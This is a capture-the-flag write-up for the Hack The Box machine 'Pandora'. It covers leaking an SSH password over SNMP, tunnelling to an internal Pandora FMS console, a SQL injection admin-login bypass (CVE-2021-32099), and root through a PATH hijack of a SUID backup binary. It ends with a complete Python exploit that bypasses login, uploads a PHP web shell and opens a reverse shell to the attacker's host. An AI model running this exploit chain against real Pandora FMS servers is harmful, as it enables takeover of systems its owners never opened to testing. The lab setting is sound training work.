

This is a Linux easy machine. To get the shell is need enum **SNMP**. There’re the user daniel credential was found. After login SSH, into machine is discovered a page web in localhost ]being necessary to tunnel out. The web page run a web app called `Pandora FMS` that is vuln to SQLi and RCE. Exploring this we gain shell of user matt. To priv esc it is necessary do `path hijack`.

The exploit for this machine is on the end of the post.

**Have a good time!**

# Introdution

[https://app.hackthebox.com/machines/Pandora](https://app.hackthebox.com/machines/Pandora)

- **IP:** 10.10.11.136

## Diagram



# Enumeration

## Port Scanning

```bash
ports=$(sudo nmap -sTU --open -p- -Pn --min-rate=1000 -T4 10.10.11.136 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.11.136
```


### UDP

```bash
sudo nmap -sU -top-ports**=**100 10.10.11.136
```


## Port 80 (HTTP)

The site is for “Play”, and “extention of Panda.HTB”:


All links lead to the same place on the page. There's a contact form at the bottom, but it doesn't seem to do anything.

I’ll add `panda.htb` to my `/etc/hosts` file, but the same page is loaded.

## **Port 161 (SNMP - UDP)**

I’ll run the `snmp-check` that has a friendlier ****output.

Analyzing the processes, we found a credential

```bash
snmp-check -c public 10.10.11.136
```


> User: **daniel** 
Pass**: HotelBabylon23**
> 

# Exploration

## Getting the **Shell**

With the credential found by looking at the machine's processes on port 161, we entered.

```bash
**ssh 10.10.11.136 -l daniel**
```


# Post Exploration

## Daniel → Matt

### **Recon**

```bash
ss -nltp
```


We found a internal web page running on localhost in port 80.

```bash
cat /etc/apache2/sites-enabled/pandora.conf
```


### Enum Port 80

We tunnel the target's port 80 to kali's port 9090.

```bash
ssh -N -L 9090:localhost:80 daniel@10.10.11.136
```

Thus, we have access to the target's internal web page. There is a login area and a web app, `v7.0NG.742_FIX_PERL2020`, is running, which we can see in the bottom corner.


Searching on google we discovered an exploit based on CVE-2020-5844, but It’s a exploit that needs authentication. Doesn't work for us at the moment


This site shows some CVE for web app

[https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/](https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/)


### **CVE-2021-32099**

> **Refer:** [https://www.cvedetails.com/cve/CVE-2021-32099/](https://www.cvedetails.com/cve/CVE-2021-32099/)
> 
> 
> 
> 

This is the commant that allows bypass login as admin.

[https://github.com/akr3ch/CVE-2021-32099](https://github.com/akr3ch/CVE-2021-32099)

```bash
http://localhost:9090/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1
```


In pratice, this payload insert my cookie as admin session.

Now we can use the exploit RCE Authentication based on CVE-2020-5844.

[https://github.com/UNICORDev/exploit-CVE-2020-5844](https://github.com/UNICORDev/exploit-CVE-2020-5844)


This exploit insert a vulnerable parameter to RCE.

Now we can to run command on target. 

This exploit also allow to get reverse shell quickly


**HABEMUS SHELL MATT!!!**

## Matt → root

### SSH as Matt

Let’s to insert our public key SSH in `/home/matt/.ssh/authorized_keys` in target for after login SSH as matt.


### pandora_backup

```bash
find / -perm -4000 -ls 2>/dev/null
```


The box has installed the `ltrace`, we ‘ll use for debug the **pandora_backup** binary.

> ltrace  is  a  program  that  intercepts and records the dynamic library calls which are called by the executed process and the signals which are received by that process.  It can also intercept and print the system calls executed by the program.
> 


The binary crashes because it doesn’t have permissions to `/root/.backup/pandora-backup.tar.gz`, which makes sense since `ltrace` drops the privs from SUID. Still, I’ll note that it’s using `system` to call `tar` without a full path.

I can control that path, which makes this likely vulnerable to **path hijack**. I’ll work from `/tmp`, and add that to the current user’s `PATH`:

```bash
export PATH=/tmp:$PATH
```


Now in `/tmp` i created a evil file called `tar`:

```bash
echo -e '#!/bin/bash \nbash' > /tmp/tar
chmod +x tar
```


Runnning the binary this running my evil tar.


**HABEMUS ROOT!!!**

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`pandora-getshell.py`

```python
#! /usr/bin/env python3

#### Author: 0xEtern4lW0lf
#### Created: 24 Dez 2022
#### Description: Exploit Pandora FMS 742
#### CVE: CVE-2021-32099 (SQL Injection)
#### CVE: CVE-2021-32099 (RCE)
#### Refer: https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/

#### ========= MODULES =========

import argparse
import sys
import time
import socket
from threading import Thread
import requests
import urllib.parse
import telnetlib

#### ========= VARIABLE =========

#### COLORS ####
RED = "\033[1;91m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
GREEN = "\033[1;92m"
END = "\033[1;m "

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

webName = '0xEtern4lW0lff.php'
cookie = 'tk91kn9qjfulm7t01illrnr2rv'

#### ========= FUNCTION =========

## Banner
def banner():
  EwLogo = f"""

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⣀⠠⠤⢤⣤⣶⣴⣦⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⡞⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⢿⣷⣄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣄⠈⠉⠛⠿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡯⣿⣷⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠰⢾⣿⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢌⡻⢿⡆⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠝⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡌⠿⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠋⠀⣸⣧⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠁
⠀⠀⠀⠀⠀⠀⠀⢀⣾⣏⣴⠟⢻⣿⠟⠛⠶⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢻⣿⡀
⠀⠀⠀⠀⠀⠀⠀⣼⣿⣿⣿⣴⠿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⢳⣜⣿⡇
⠀⠀⠀⠀⠀⣠⣾⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⢿⣿⡇
⠀⠀⢀⣤⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠸⣿⠇
⢀⣴⣿⡿⠋⠀⠀⠀⠀⠀⣀⣤⣶⣶⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⢸⣿⡄⡿⠀
⢺⣿⡏⠀⠀⠀⠀⢀⣤⣾⣿⠿⠛⠋⠙⠻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡝⣦⠀⣸⣿⡧⠃⠀
⠀⠈⠉⠀⢠⣤⣶⣿⡿⠋⠀⠀⠀⠀⠀⡀⠈⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⣿⣷⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⢀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡆⠀⠀⣼⡇⣾⣿⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⢻⣿⣀⣾⣿⢡⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⡿⢣⣿⣿⣿⣿⣣⡿⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⡿⠀⠀⠀⠀⠀⣀⣠⣤⣴⣶⣿⠿⣋⣴⣿⣿⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡇⠀⢀⣠⣶⣿⣿⡿⠟⠋⠉⠐⠊⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣇⣴⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀{RED}#--------------------------------------------#
 _____  _                         ___  _  _    _  _____  _   __ 
|  ___|| |                       /   || || |  | ||  _  || | / _|
| |__  | |_   ___  _ __  _ __   / /| || || |  | || |/' || || |_ 
|  __| | __| / _ \| '__|| '_ \ / /_| || || |/\| ||  /| || ||  _|
| |___ | |_ |  __/| |   | | | |\___  || |\  /\  /\ |_/ /| || |  
\____/  \__| \___||_|   |_| |_|    |_/|_| \/  \/  \___/ |_||_|  
                                                                
#----------------------------------------------------------------# 
    
    Author: {GREEN}0xEtern4lW0lf{END}                           
    {RED}Site: {BLUE}https://0xetern4lw0lf.github.io/{END}

    FOR EDUCATIONAL PURPOSE ONLY.

  """
  return print(f'{BLUE}{EwLogo}{END}')

## Pretty loading wheel
def loading(spins):

    def spinning_cursor():
        while True:
            for cursor in '|/-\\':
                yield cursor

    spinner = spinning_cursor()
    for _ in range(spins):
        sys.stdout.write(next(spinner))
        sys.stdout.flush()
        time.sleep(0.1)
        sys.stdout.write('\b')

##### Weaponization and Attack

## Set the handler
def handler(lport,target):
    print(f"{BLUE}[+] LISTEN: {YELLOW} Starting handler on {lport} [+]{END}")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn = s.accept()
    loading(15)
    print(f"{BLUE}[+] LISTEN: {YELLOW}Receiving connection from {target} [+]{END}")
    tn.sock = conn
    print(f"\n{BLUE}[+] SUCCESS: {GREEN}HABEMUS SHELL! [+]{END}\n")
    tn.interact()

## bypass login based CVE-2021-32099 (SQL Injection)
def bypassLogin(rhost,rport):
    
    print(f"\n{BLUE}[+] BYPASS LOGIN: {YELLOW} Bypass login page [+]{END}")

    global payload
    payload = "a' UNION SELECT 'a',1,'id_usuario|s:5:\"admin\";' as data FROM tsessions_php WHERE '1'='1"

    url = f"http://{rhost}:{rport}/pandora_console/include/chart_generator.php?session_id={payload}"

    cookies = {'PHPSESSID': cookie}

    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-Fetch-Dest': 'document',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-Site': 'same-origin',
        'Sec-Fetch-User': '1',
        }

    # Try to upload the PHP web shell to the server
    try:
        r = requests.get(url, headers=headers, cookies=cookies, verify=False)
        print(f"{BLUE}[+] BYPASS LOGIN: {YELLOW}Connected to web! Status Code: {r.status_code} [+]{END}")

    
    except:
        print(f"{RED}[!] ERROR: {YELLOW}Could not connect to web! Status Code: {r.status_code} [!]{END}")
        exit()
    
    loading(15)

## Upload webshell based in CVE-2021-32099 (RCE)
def uploadWebShell(rhost,rport):

    # Set headers, parameters, and cookies for post request
    url = f'http://{rhost}:{rport}/pandora_console/index.php'

    headers = {
    'Host': f'{rhost}',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'multipart/form-data; boundary=---------------------------308045185511758964171231871874',
    'Content-Length': '1289',
    'Connection': 'close',
    'Referer': f'http://{rhost}:{rport}/pandora_console/index.php?sec=gsetup&sec2=godmode/setup/file_manager',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1'
    }

    params = (
        ('sec', 'gsetup'),
        ('sec2', 'godmode/setup/file_manager')
    )

    cookies = {'PHPSESSID': cookie}

    # Basic PHP web shell with '???' parameter
    data = f'-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="file"; filename="{webName}"\r\nContent-Type: application/x-php\r\n\r\n<?php system($_GET[\'cmd\']);?>\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="umask"\r\n\r\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="decompress_sent"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="go"\r\n\r\nGo\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="real_directory"\r\n\r\n/var/www/pandora/pandora_console/images\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="directory"\r\n\r\nimages\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash"\r\n\r\n6427eed956c3b836eb0644629a183a9b\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash2"\r\n\r\n594175347dddf7a54cc03f6c6d0f04b4\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="upload_file_or_zip"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874--\r\n'

    # Try to upload the PHP web shell to the server
    try:
        r = requests.post(url, headers=headers, params=params, cookies=cookies, data=data, verify=False)
        print(f"{BLUE}[+] EXPLOIT: {YELLOW}Connected to web! Status Code: {r.status_code} [+]{END}")

    
    except:
        print(f"{RED}[!] ERROR: {YELLOW}Could not connect to web! Status Code: {r.status_code} [!]{END}")
        exit()

    
    loading(15)

def getShell(rhost,rport,lhost,lport):

    shell = f"php -r \'$sock=fsockopen(\"{lhost}\",{lport});exec(\"/bin/sh -i <&3 >&3 2>&3\");\'"
    
    try:
        requests.get(f'http://{rhost}:{rport}/pandora_console/images/{webName}?cmd={urllib.parse.quote_plus(shell)}',timeout=1)
        print(f"{RED}[!] ERROR: {YELLOW}Reverse shell could not connect! Make sure you have a local listener on {YELLOW}{lhost}:{lport}{END}\n")
    
    except:
        print(f"\n{BLUE}[+] SUCCESS: {GREEN}Command sent SUCCESSFULLY! [+]{END}\n")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='GetShell - Pandora / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target IP address or hostname', type=str, required=True)
    parser.add_argument('-p','--rport', help="Port of the target machine.", type=int, required=True)
    parser.add_argument('-li', '--lhost', help='Local IP address or hostname', type=str, required=True)
    parser.add_argument('-lp', '--lport', help='Local Port to receive the shell', type=int, required=True)

    args = parser.parse_args()

    rhost = args.target
    rport = args.rport
    lhost = args.lhost
    lport = args.lport

    ## Setup the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()

    ## Here do SQLi for bypass login
    bypassLogin(rhost,rport)

    ## Here up webshell
    uploadWebShell(rhost,rport)

    ## Here inject reverse shell command
    getShell(rhost,rport,lhost,lport)

    
if __name__ == '__main__':
    banner()
    main()
```


More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).